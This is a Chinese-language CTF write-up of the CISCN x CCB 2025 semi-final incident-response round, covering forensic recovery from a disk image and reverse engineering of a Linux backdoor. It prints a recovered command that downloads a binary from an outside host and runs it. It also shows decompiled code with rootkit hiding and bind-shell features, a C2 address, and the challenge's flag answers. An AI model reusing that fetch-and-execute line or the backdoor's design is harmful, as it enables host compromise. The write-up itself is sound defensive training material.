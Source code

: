 ```yaml
---
title: CISCN x CCB 半决赛 2025 ISW(应急响应)
tags: [ISW, 应急响应, 取证]
categories: CTF
---
```


# CISCN x CCB 半决赛 2025 ISW(应急响应)

第一次入围CISCN半决赛，学了一周应急匆忙上阵，上午awdp坐牢四小时，下午应急也坐牢四小时，狠狠爆零，log目录翻烂了都没找到IP，还得练。

不知道附件中的入口主机dd镜像.raw有啥用，赛后看了其他队伍的wp才知道可以根据这玩意进行恢复取证分析。

### 题目背景

> ⼩路是⼀名⽹络安全⽹管，据反映发现公司主机上有异常外联信息，据回忆前段时间执⾏过 某些更新脚本（已删除），现在需要协助⼩路同学进⾏⽹络安全应急响应分析，查找⽊⻢， 进⼀步分析，寻找攻击源头，获取攻击者主机权限获取flag⽂件。

### flag1

> 题目描述
>
> 找出主机上**⽊⻢回连**的主控端服务器IP地址（不定时(3~5分钟)周期性），并以 **flag{MD5}**  形式提交，其中MD5加密⽬标的原始字符串格式 **IP:port**

使用取证工具：**RStudioPortable**

工具打开之后，扫描文件所在盘，扫描完成之后，可以看到

![image-20250318095417900](https://nshide.oss-cn-hangzhou.aliyuncs.com/img_temp/image-20250318095417900.png)

其中Recognized就是工具扫描识别出的分区，找到对应的分区，看到

![image-20250318095519119](https://nshide.oss-cn-hangzhou.aliyuncs.com/img_temp/image-20250318095519119.png)

首先查看靶机给的Ubuntu用户，raw目录

![image-20250318095712206](https://nshide.oss-cn-hangzhou.aliyuncs.com/img_temp/image-20250318095712206.png)

发现一个可疑且被删除的文件，**1.txt**，恢复提取查看

```
wget –quiet http://mirror.unknownrepo.net/f/l/a/g/system_upgrade -O /tmp/.system_upgrade && 
chmod +x /tmp/.system_upgrade && /tmp/.system_upgrade
```

有可能时黑客下载病毒文件时所执行的命令，同时在本目录还看到可疑文件**.viminfo**

> **Viminfo**⽂件是Vim编辑器中的⼀个重要⽂件，⽤于保存⽤⼾在退出Vim时的各种状态信 息，以便在⽤⼾再次启动Vim时能够快速恢复这些状态

恢复提取查看

在其中看到了和下载的文件名相同的服务

```
# Jumplist (newest first):
-'  6  0  /etc/systemd/system/system-upgrade.service
|4,39,6,0,1740374317,"/etc/systemd/system/system-upgrade.service"
-'  6  0  /etc/systemd/system/system-upgrade.service
|4,39,6,0,1740374161,"/etc/systemd/system/system-upgrade.service"
-'  5  7  /etc/systemd/system/system-upgrade.service
|4,39,5,7,1740374156,"/etc/systemd/system/system-upgrade.service"
-'  5  7  /etc/systemd/system/system-upgrade.service
|4,39,5,7,1740374156,"/etc/systemd/system/system-upgrade.service"
-'  5  7  /etc/systemd/system/system-upgrade.service
|4,39,5,7,1740374151,"/etc/systemd/system/system-upgrade.service"
-'  1  0  /etc/systemd/system/system-upgrade.service
|4,39,1,0,1740374113,"/etc/systemd/system/system-upgrade.service"
-'  1  0  /etc/systemd/system/system-upgrade.service
|4,39,1,0,1740374113,"/etc/systemd/system/system-upgrade.service"
-'  1  0  /etc/systemd/system/system-upgrade.service
|4,39,1,0,1740374113,"/etc/systemd/system/system-upgrade.service"
```

找到该服务

![image-20250318100355212](https://nshide.oss-cn-hangzhou.aliyuncs.com/img_temp/image-20250318100355212.png)

右键预览

![image-20250318100428169](https://nshide.oss-cn-hangzhou.aliyuncs.com/img_temp/image-20250318100428169.png)

可以看到该服务所启动的程序，找到恢复提取，然后用ida反编译

![image-20250318100600123](https://nshide.oss-cn-hangzhou.aliyuncs.com/img_temp/image-20250318100600123.png)

发现对符号表进行了混淆

![image-20250318100700135](https://nshide.oss-cn-hangzhou.aliyuncs.com/img_temp/image-20250318100700135.png)

但依旧可以通过字符串找到主函数

```c
__int64 ULRYvXzICzy880dO()
{
  _fentry__();
  Cr8YeLCPy17g2Kqp();
  vH5iRF4rBcsPSxfk();
  QODpPLbPPLRtk397();
  ZRzAVZZOp3EIPba6(&unk_2720);
  XnzbhEaPnydxn1rY("HIDEME", ZRzAVZZOp3EIPba6);
  XnzbhEaPnydxn1rY("SHOWME", bbiVzCN8llELLp6o);
  XnzbhEaPnydxn1rY("HIDE_DENT", Fmk3MFLuFCEiNxgN);
  XnzbhEaPnydxn1rY("SHOW_HIDDEN_DENT", PiCa2rGqFOVs1eiB);
  XnzbhEaPnydxn1rY("HIDE_TCP_PORT", IDZO4NzptW8GaHzj);
  XnzbhEaPnydxn1rY("SHOW_HIDDEN_TCP_PORT", ol186ifyeUPhXKNl);
  XnzbhEaPnydxn1rY("HIDE_TCP_IP", H7XMCPIhJup38DuP);
  XnzbhEaPnydxn1rY("SHOW_HIDDEN_TCP_IP", yiA2lg0kW8v2vOp0);
  XnzbhEaPnydxn1rY("HIDE_UDP_PORT", cuC5zWc4iL4kPgAn);
  XnzbhEaPnydxn1rY("SHOW_HIDDEN_UDP_PORT", LC22j9OZfANw81M7);
  XnzbhEaPnydxn1rY("HIDE_UDP_IP", YlfqRhWLKVqMFbxN);
  XnzbhEaPnydxn1rY("SHOW_HIDDEN_UDP_IP", XBKrkXaghfenXrk6);
  XnzbhEaPnydxn1rY("BINDSHELL_CREATE", NVEKPqx35kIvfacV);
  XnzbhEaPnydxn1rY("RUN_CUSTOM_BASH", T34Z94ahif0BXQRk);
  Fmk3MFLuFCEiNxgN("systemd-agentd");
  Fmk3MFLuFCEiNxgN("system-upgrade");
  Fmk3MFLuFCEiNxgN("system_upgrade");
  IDZO4NzptW8GaHzj("4948");
  IDZO4NzptW8GaHzj("1337");
  H7XMCPIhJup38DuP("192.168.57.203");
  H7XMCPIhJup38DuP("127.0.0.1");
  cuC5zWc4iL4kPgAn("8080");
  return YlfqRhWLKVqMFbxN("127.0.0.1");
}
```

找到了IP和port

**flag{MD5(192.168.57.203:4948)}**

------------------------------------------------------------------------------------------------------------------------------



### flag2

> 找出主机上驻留的**远控⽊⻢⽂件本体**，计算该⽂件的MD5,结果提交形式： flag{md5}

在第一题中ida反编译的结果中就可以找到木马本体

![image-20250318101029728](https://nshide.oss-cn-hangzhou.aliyuncs.com/img_temp/image-20250318101029728.png)

导出计算文件md5即可

**flag{bccad26b665ca175cd02aca2903d8b1e}**

------------------------------------------------------------------------------------------------------------------------------



### flag3

> 找出主机上加载远控⽊⻢的**持久化程序**（下载者），其功能为下载并执⾏远控⽊⻢，计算该 ⽂件的MD5,结果提交形式： flag{MD5}

这个持久化程序就是我们之前找到的那个服务

**flag{fabe3a89369c56609d2748e5890b21d7}**

------------------------------------------------------------------------------------------------------------------------------



### flag4

> 查找题⽬3中持久化程序（下载者）的**植⼊痕迹**，计算持久化程序植⼊时的原始名称MD5 （仅计算⽂件名称字符串MD5），并提交对应 flag{MD5}

持久化程序的植入痕迹也就是我们在最开始的1.txt中看到的下载指令中的**system_upgrade**

**flag{MD(system_upgrade)}**

------------------------------------------------------------------------------------------------------------------------------



### flag5

> 分析题⽬2中找到的远控⽊⻢，获取⽊⻢通信加密密钥,结果提交形式：flag{ 通信加密 钥 } 

将题目2中得到的文件用ida分析，很显然去符号了，但是依旧可以通过可疑的数组进行定位(这对逆向手不是一眼盯真)

![image-20250318102105359](https://nshide.oss-cn-hangzhou.aliyuncs.com/img_temp/image-20250318102105359.png)

交叉引用找到引用函数

![image-20250318102141618](https://nshide.oss-cn-hangzhou.aliyuncs.com/img_temp/image-20250318102141618.png)

就是一个异或

![image-20250318102231539](https://nshide.oss-cn-hangzhou.aliyuncs.com/img_temp/image-20250318102231539.png)

**flag{ThIS_1S_th3_S3cR3t_fl@g}**

------------------------------------------------------------------------------------------------------------------------------



### flag6

> 分析题⽬3中持久化程序（下载者），找到攻击者分发远控⽊⻢使⽤的服务器，并获取该服 务器权限，找到flag，结果提交形式： flag{xxxx} 

未能复现，只能等后期看会不会在一些靶场重新上线吧

------------------------------------------------------------------------------------------------------------------------------



### flag7

> 获取题⽬2中找到的远控⽊⻢的主控端服务器权限，查找flag⽂件，结果提交形式： flag{xxxxx}

同上